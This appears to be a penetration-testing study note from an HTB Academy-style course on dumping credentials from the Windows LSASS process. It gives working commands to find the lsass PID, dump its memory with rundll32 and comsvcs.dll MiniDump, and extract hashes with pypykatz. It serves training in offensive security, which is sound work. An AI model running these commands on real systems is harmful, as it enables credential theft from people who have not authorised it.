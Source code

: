 # Attacking LSASS

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/50328b82-c010-46a7-af18-15c5516cb677)

Upon initial logon, LSASS will:

1) Cache credentials locally in memory
2) Create access tokens
3) Enforce security policies
4) Write to Windows security log

# Rundll32.exe & Comsvcs.dll Method
 First of all we have to find lsass pid
```bash
tasklist /svc
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/564013af-c946-4535-b81d-2bdce653888e)<br>
We can see PID of lsass is `672`<br>
From powershell:
```bash
Get-Process lsass
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/8c135bc0-9a1f-44a2-a432-cdee2a4b815e)
<br>Once we have the PID assigned to the LSASS process, we can create the dump file.

From powershell:
```bash
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
and then we will transfer file to linux machine then we will use `pypykatz` to dump hashes:
```bash
pypykatz lsa minidump lsass.dmp
```
